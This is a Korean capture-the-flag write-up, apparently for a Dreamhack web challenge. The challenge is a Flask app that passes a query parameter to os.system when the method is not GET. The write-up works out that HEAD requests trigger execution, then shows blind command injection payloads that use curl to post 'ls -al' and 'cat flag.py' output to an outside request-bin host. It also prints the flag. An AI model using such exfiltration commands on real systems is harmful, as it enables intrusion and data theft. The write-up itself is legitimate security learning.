 문제는 **Read the flag file XD** 입니다.  

뭔가 flag 파일을 찾는 문제인 것 같다.  

```python
#!/usr/bin/env python3
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/' , methods=['GET'])
def index():
    cmd = request.args.get('cmd', '')
    if not cmd:
        return "?cmd=[cmd]"

    if request.method == 'GET':
        ''
    else:
        os.system(cmd)
    return cmd

app.run(host='0.0.0.0', port=8000)
```

코드를 보면 다음과 같은 기능을 한다.  
1. cmd 를 url에서 입력받는다.
2. 만약, request method 가 **GET 이면, 아무것도 안함**
3. 그게 아니라 request method 가 **GET이 아니면, 입력받은 cmd 를 실행**한다.

<img src="1.jpg">  <img src="2.jpg">  

처음에 들어가면, cmd를 입력하라는 문구가 나온다. 

그리고 예시를 작성하면, 다음과 같이 적은 cmd가 나오는 것을 알 수 있다.  

<img src="3.jpg">  <img src="4.jpg">  

burp suite를 이용해 cmd에 ls를 적었을 때의 request message를 봤다.  

예시를 들어서, **GET 메소드로 request**를 한다면, 위의 이미지처럼 그냥 **아무것도 하지 않고 'ls' 가 나오는 것**을 알 수 있다.  

<img src="5.jpg">  <img src="6.jpg">  

그래서 GET 메소드 말고 다른 메소드인 **POST 를 통해 request** 를 했다.  

그런데 **POST 메소드는 지원하지 않는다**고 나왔다.  

그럼 어떤 메소드를 이용해야할까?

## Repeater로 request 보내기

그 전에, Proxy를 이용해 request를 보내면 response를 받을 수 없다.  

그래서 request를 **Repeater** 로 보내야 한다.  

<img src="15.jpg"> 

여기서 Repeater로 들어가면, 다음과 같이 나온다.  

<img src="16.jpg">  

여기까지 오면 그래서 **어떤 메소드를 사용**해야 하는 지 의문일 것이다.  

이럴 때 **어떤 메소드를 허가**하는지 알 수 있는 메소드가 있다.  

<img src="7.jpg">  <img src="8.jpg">  

바로 `OPTION` 이다.(https://gnaseel.tistory.com/24)  
그래서 위의 이미지처럼 OPTION 을 이용해서 request 를 했고, 이에 대한 response message로 **HEAD, OPTIONS, GET** 을 사용할 수 있다는 것을 알았다.(참고로 response에서 `405 METHOD NOT ALLOWED` 가 발생했는데, 다시 문제 링크를 만들고 했을 때는 `200 OK` 가 나왔음. 일단 **어떤 메소드가 허용되는지**를 아는 것이 중요하기 때문에 크게 영향 없을 듯)  

<img src="9.jpg">  <img src="17.jpg">  

`HEAD(GET과 동일, 그러나 response body가 없음)`로 request 하면 POST 때처럼 오류가 발생하지 않는다.  

그러나 우리가 원하는 cmd의 결과를 받을 수 없다.  

여기서 어떻게 해야할 지 모르겠어서 찾아봤다.  

결론적으로 **새로운 서버를 열어서 그 서버로 적은 cmd를 요청**하면 된다는 것이다.  

여기서 드림핵에서 제공해준 도구인 **https://tools.dreamhack.games/myrequest** 에서 **Request Bin** 를 사용할 수 있다.  

<img src="10.jpg">  

참고로 나에게 주어진 서버는 `https://ntjbkyc.request.dreamhack.games` 이다.  

여기까지 하면 cmd 결과를 받을 서버까지 만든 상태이다.  

그렇다면 cmd 결과를 서버로 전송하는 명령어는 무엇일까?  
바로 **curl** 이다.(https://inpa.tistory.com/entry/LINUX-%F0%9F%93%9A-CURL-%EB%AA%85%EB%A0%B9%EC%96%B4-%EC%82%AC%EC%9A%A9%EB%B2%95-%EB%8B%A4%EC%96%91%ED%95%9C-%EC%98%88%EC%A0%9C%EB%A1%9C-%EC%A0%95%EB%A6%AC)  

<img src="11.jpg">  

즉, cmd에 `curl -X POST -d "$(ls -al)" https://ntjbkyc.request.dreamhack.games` 같이 명령어를 적는다.(공백은 `%20` 으로, 따옴표는 `%22`로 바꿔서 적기)  

`https://ntjbkyc.request.dreamhack.games` 에 **POST 방식**으로 문제 사이트에서 **ls -al 를 실행한 결과**를 **전송**하는 명령이다.  

<img src="12.jpg">  

**ls -al** 를 했을 때 **flag.py** 가 있는 것을 확인했으므로, `cat flag.py` 를 하면 끝이다.  

<img src="13.jpg">  

이전처럼 `curl -X POST -d "$(cat flag.py)" https://ntjbkyc.request.dreamhack.games` 이렇게 cmd에 값을 넣는데, **cat flag.py** 로 flag를 출력한다.  

<img src="14.jpg">  

따라서 정답은 **DH{4c9905b5abb9c3eb10af4ab7e1645c23}** 이다.  

# curl 내용 추가

(https://studyforall.tistory.com/22)

`curl+(복사한 Dreamhack Tools 링크)+-d+"$(명령)"`
으로도 가능하다.  

1. `+` : 띄어쓰기
2. `-d` : curl 명령어의 옵션. 데이터를 POST 요청으로 전송
3. `$(셸 명령)` : 쉘 명령을 실행하는 명령(Command Injection에서 배움)

즉, `curl https://ntjbkyc.request.dreamhack.games -d "$(cat flag.py)"` 도 가능하다.  
-> `curl+https://ntjbkyc.request.dreamhack.games+-d+"$(cat+flag.py)"`

<img src="18.jpg">
